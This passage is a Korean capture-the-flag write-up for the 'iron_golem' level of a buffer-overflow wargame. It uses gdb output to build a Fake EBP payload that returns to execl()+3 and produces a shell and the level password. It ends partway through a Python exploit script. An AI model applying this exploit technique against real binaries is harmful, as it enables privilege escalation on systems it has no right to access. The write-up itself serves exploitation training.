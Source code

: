 ```sh
(gdb) p execl
$1 = {<text variable, no debug info>} 0x7a5720 <execl>
```

execl()의 주소는 0x7a5720이다. 여기서 생각해야 할 점은 우리는 FakeEBP기법을 이용해서 EBP 주소를 조작하고 있다.

따라서 함수에 프롤로그를 주의해야 한다.



```assembly
(gdb) x/16i 0x7a5720
0x7a5720 <execl>:	push   %ebp
0x7a5721 <execl+1>:	mov    %esp,%ebp
0x7a5723 <execl+3>:	lea    0x10(%ebp),%ecx
0x7a5726 <execl+6>:	push   %edi
0x7a5727 <execl+7>:	push   %esi
0x7a5728 <execl+8>:	push   %ebx
0x7a5729 <execl+9>:	sub    $0x1038,%esp
0x7a572f <execl+15>:	mov    0xc(%ebp),%eax
0x7a5732 <execl+18>:	movl   $0x400,0xfffffff0(%ebp)
0x7a5739 <execl+25>:	lea    0x1b(%esp),%edx
0x7a573d <execl+29>:	and    $0xfffffff0,%edx
```

execl()를 살펴보면 함수의 프롤로그가 시작되면서 EBP를 재설정한다. 때문에 우리가 조작해 둔 FakeEBP가 무용지물 되므로, 프롤로그 이후 부터 실행되게 만들어야 한다.



따라서 ret주소에 execl()+3 주소를 사용해야 한다.



이제 준비는 다 됬다. 

페이로드를 정리해보면, 

- buffer[256] + dummy[8]
- .got.plt-8주소 : 0x8049618 - 8 : 0x8049610
- execl()주소+3 : 0x007a5720 + 3 : 0x007a5723



```sh
[gate@Fedora_1stFloor ~]$ ./iron_golem `python -c 'print "A"*264+"\x10\x96\x04\x08"+"\x23\x57\x7a\x00"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA#Wz
sh-3.00$ id
uid=501(iron_golem) gid=500(gate) groups=500(gate) context=user_u:system_r:unconfined_t
sh-3.00$ my-pass
euid = 501
blood on the fedora
```



파이썬 코드로도 ex를 짜보는 연습을 해보자.

```python
import struct
import os

p32 = lambda x : struct.pack("<I", x)

target = "/home/gate/iron_golem"

fake_ebp = 0x8049618
execl = 0x7a5720

payload  = "A"*264
payload += p32(fake_ebp - 0x8)
```